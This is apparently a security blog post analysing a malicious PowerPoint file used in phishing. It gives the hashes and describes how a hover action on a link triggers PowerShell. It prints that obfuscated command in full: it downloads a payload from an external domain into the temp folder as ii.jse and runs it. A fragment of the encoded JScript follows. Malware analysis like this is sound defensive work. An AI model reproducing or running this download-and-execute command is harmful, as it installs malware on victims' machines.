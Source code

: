 +++
title = "Analysis of the order&prsn.ppt malicious powerpoint"
date = 2024-03-11T20:03:02+02:00
draft = true
draft = false
tags = ["Maldocs",".ppt"]
categories = ["Phishing","Malicious_documents"]
ShowToc = true
+++

## Analysis of the order&prsn.ppt document
This post will be for the analysis of a malicious ppt document better known as order.ppt or prsn.ppt. General info about this document:
- MD5: 3bff3e4fec2b6030c89e792c05f049fc
- SHA256: 796a386b43f12b99568f55166e339fcf43a4792d292bdd05dafa97ee32518921

This document used an onhoven action on a link inside the document to try and invoke a powershell command.

### Powershell command
Initially, the first command used is the following powershell command which gets triggered upon hoverup on the hyperlink:  
![powershell command](/posts/maliciousppt/powershell_command.png)
The command is:
```ps
powershell -NoP -NonI -W Hidden -Exec Bypass "IEX (New-Object System.Net.WebClient).DownloadFile('http:'+[char] 0x2F+[char] 0x2F+'cccn.nl'+[char] 0x2F+'c.php',\"$env:temp\ii.jse\"); Invoke-Item \"$env:temp\ii.jse\""
```

We can further deobfuscate this command using engines like [tio.run](https://tio.run/):  
![tio.run](/posts/maliciousppt/tioRun_powershell.png)  

So this command tries to:
- download a file named "c.php" from h[x][x]p://cccn.nl/c.php
- outputs the contents of this file to the temp directory and specifically to a file named ii.jse

Although the domain is not live anymore and thus we cannot downloaded the `ii.jse` directly from it, we can utilize [Hybrid Analysis](https://www.hybrid-analysis.com/sample/55821b2be825629d6674884d93006440d131f77bed216d36ea20e4930a280302?environmentId=100) to get it from there.

### ii.jse file analysis

Getting the file, we will see it is not really readable:  
```sh
┌──(connar㉿kali)-[~/Documents/hybrid_analysis_sample]
└─$ cat ii.jse       
#@~^jh0FAA==dm3rRHmD/2,{;x9+Wk  +[Ikl3b00KD:.\l0k       o1Fx;   Nn0bU+9idC0k%324+dEkqZ';        N0k     +9I/m3r%Str^4GF{;x9+0bUnNp/m3r%.n7knh:4+l*x;    N+Wr    +[ikC0k0(DKkVk&WxE      Nn0bxn[p/l0r%1WxDUO/:tmxq';U9+Wk        nNp/CVb%ors9+[,Rx!x[0bx+9ikC3b%nlMY42'E  [+6kx[I/m3b%nl.O4vf'!UN0rUNidC0k0Y4nFf{E        N+6k    nNp/C3b%5;bm32T'!xNWrxNp/C3r0Dkh+lq'!x[n6kxn[p/C3b04W;M&+'E     NWk     +[iklVrRVlDO+MG%{;UN0bxnNIdm3r%D;D
```  
